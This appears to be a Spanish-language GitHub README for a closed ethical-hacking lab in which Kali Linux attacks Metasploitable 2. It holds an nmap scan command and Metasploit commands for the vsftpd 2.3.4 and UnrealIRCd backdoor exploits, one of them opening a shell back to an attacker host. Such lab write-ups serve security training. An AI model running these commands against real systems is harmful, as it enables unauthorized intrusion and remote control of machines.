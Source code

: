 # LAB HACK ET 1 – Laboratorio de Hacking Ético con Kali y Metasploitable 2

## Descripción
Este laboratorio demuestra el uso de herramientas como `nmap` y `Metasploit` para realizar pruebas de penetración en un entorno controlado usando:

- Kali Linux como máquina atacante
- Metasploitable 2 como máquina víctima

## Herramientas
- Kali Linux 2025.2
- Metasploitable 2
- VMware Workstation
- nmap
- Metasploit Framework (msfconsole)

## Fases

### Fase 1 – Reconocimiento con nmap
```bash
nmap -sS -sV -O 192.168.20.129 -oN scan1.txt
```

### Fase 2 – Explotación

### Exploit 1: vsftpd 2.3.4 Backdoor

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.20.129
run
```
### Exploit 2: UnrealIRCd Backdoor
```bash
use exploit/unix/irc/unreal_ircd_3281_backdoor
set RHOSTS 192.168.20.129
set LHOST 192.168.20.128
set LPORT 4444
run
```
## Evidencias

Las evidencias se encuentran en el archivo PDF LAB_HACK_ET_1.pdf y en la carpeta evidencias/.

## Conclusiones

    Se logró comprometer completamente la máquina víctima.

    Se aplicaron técnicas básicas de pentesting con herramientas estándar.

    Buen ejemplo de práctica en laboratorio cerrado y ético.
